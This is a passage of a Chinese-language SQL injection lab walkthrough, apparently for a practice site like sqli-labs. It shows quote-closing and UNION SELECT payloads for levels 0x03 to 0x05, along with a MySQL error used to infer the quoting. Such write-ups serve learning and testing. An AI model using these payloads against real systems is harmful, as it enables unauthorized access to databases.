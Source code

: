 说明原sql语句中大概为这种形式

```
(select id = 'id' ...)
```

那么，在id赋值时添加一个)，可以形成闭合。注入点为

```
?id=') union select ...
```

接下来步骤与0x01类似

## 0x04

尝试注入点

```
?id=1 and 1=1
?id=1 and 1=2
?id=1 and '1'='2
```

均为报错。猜测使用的双引号

尝试注入点

```
?id=1 and "1"="2
```

报错

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1"="2") LIMIT 0,1' at line 1
```

故得到绕过注入点

```
?id=") union select 1,2,3 --+
```

接下来操作与0x01一致

### 总结

只要要回显报错，就说明输入参数有用。

## 0x05

尝试三个注入点

```
?id=1
?id=1'
?id=1"
```
